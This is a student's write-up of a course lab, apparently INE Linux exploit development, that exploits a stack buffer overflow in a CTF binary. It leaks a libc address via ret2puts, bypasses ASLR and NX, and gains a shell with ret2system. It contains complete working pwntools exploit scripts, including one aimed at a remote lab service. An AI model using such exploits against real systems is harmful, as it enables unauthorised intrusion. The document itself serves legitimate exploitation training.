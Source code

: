 ## Task 1: Connect to the lab and examine the binary

Try to access the service at 172.16.172.41:4444. Compare it with the "pwn3" binary available on xdev's Desktop. Try to find the buffer overflow vulnerability and control the EIP.

We used a binary from Encrypt CTF for this challenge. The binary is available at: [https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3](https://github.com/mishrasunny174/encrypt-ctf/tree/master/pwn/x86/pwn3)

## Task 2: Design a ret2puts attack scenario

Check what functions are present in the binary. Perform a ret2puts attack which results in an information leak.

**Hint**: ASLR does not affect PLT or GOT, but when referring to PLT or GOT you might be able to see randomized locations. [The plt/got sections are not randomized themselves, but after the loader resolves the function names, got points to libc. libc is randomized, so we can abuse the fact that there is a non-randomized pointer to randomized location.]

## Task 3: Leak libc's address and use it

Remember that in libc, every function is at a constant offset from the libc base and from each other. Having one valid address of libc may allow you to calculate all other addresses dynamically.

## Task 4: return to main and re-exploit the binary

After leaking the information needed, return to main() so that you are able to re-launch your attack. Use the dynamically calculated addresses to perform a ret2system() attack. In the end, confirm your exploit works by attacking the remote service on 172.16.172.41:4444

---

## Lab Part
Tried to make crash the program

![lab3_img1.png](lab3_img1.png)

The program crashed in 200 bytes of `A`, open debugger and check security of file, offset, and try to override the `EIP`

First of all, check the security of system and file, as below picture, the program using Data Execution Prevention (DEP) - No Execute bit (NX) and Address space layout randomization (ASLR) with options 2 which mean full randomization

![lab3_img2.png](lab3_img2.png)

Next part, get the offset value, in this part, I am not going to use the `pattern create/offset` which is [peda](https://github.com/longld/peda)'s feature. Instead that, I will use cyclic, which is one of feature of pwnlib.
- `cyclic 200`
- 
![lab3_img3.png](lab3_img3.png)

![lab3_img4.png](lab3_img4.png)

- `pwn cyclic -l 0x6261616b` => Output: 140

Make a string to confirm that 140 `A` is the offset and override `EIP` with `BBBB`

- `python -c "print('A'*140+'B'*4)" > input.txt`

![lab3_img5.png](lab3_img5.png)

Greate, now we can control the EIP, but we could not attack because of the program has 2 security as mentioned above, so let's analysis the assembly code. 

In `gdb` debugger, set the disable-randomization to on:

- `set disable-randomization on`

Disassembly the `main` for many times to watch what is change, which address is not changed.

![lab3_img6.png](lab3_img6.png)

As above picture, we can see the libc address is not changed. `puts@plt` has same function like printf, but  `puts` will prevent the format string,  `gets@plt`  is the cause make the buffer overflow.

- So, the idea to overflow the program is print the value of `puts` twice, to get the EIP, then we will return to main, and calculate address of system(), exit(), and argument based on libc's address.

![lab3_img7.png](lab3_img7.png)

- `0x8048340` which is the pointer of address `puts@plt`. here we got 3 lines. In the first line, the DS make a new EIP, point to `0x80497b0` which is `puts@got.plt`, this means puts@plt make a new EIP point to puts@got.plt to check and input if have format string, then output, so we could take it to be the argument to print the output (include the return address of puts@plt)

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))
```

![lab3_img8.png](lab3_img8.png)

Now we leaked the `puts@plt` address, now get the based address of `system()`, `exit()`, and `/bin/sh` arguments. Breakpoint at `main` the following below picture's instruction.

![lab3_img9.png](lab3_img9.png)

Now, we write new exploit, with another new payload to re_exploit and ret2sys

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

exploit = process('./pwn3')
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*140 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```

![lab3_img10.png](lab3_img10.png)

We got crashed, so check the core file, and we got the return address is pointing to `0x41414141`.

![lab3_img11.png](lab3_img11.png)

We just need remove 8 bits and re-run, and we success exploit the program.

![lab3_img12.png](lab3_img12.png)

Change the target to the host, and we success fully control the machine.

```python
from pwn import *

put_plt = p32(0x8048340)
put_got = p32(0x80497b0)
return_address = p32(0x804847d)

payload = b'A'*140
payload += put_plt
payload += return_address
payload += put_got

#exploit = process('./pwn3')
exploit = remote("172.16.172.41", 4444)
exploit.recvuntil('desert:')
exploit.sendline(payload)
exploit.recvline()
leak_add = u32(exploit.recvline()[:4])

log.info('put@libc: ' + hex(leak_add))

libc_base = leak_add - 0x5fca0 # puts_base
sys_add = p32(libc_base+0x3ada0)
exit_add = p32(libc_base + 0x2e9d0)
args = p32(libc_base + 0x15ba0b)

log.info('system@libc: '+hex(u32(sys_add)))
log.info('exit@libc: ' + hex(u32(exit_add)))
log.info('/bin/sh: ' + hex(u32(args)))

new_payload = b'A'*132 + sys_add + exit_add + args
exploit.send(new_payload)
exploit.interactive()
```

![lab3_img13.png](lab3_img13.png)

---
## Reference
- [Linux Exploit Development (INE).](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)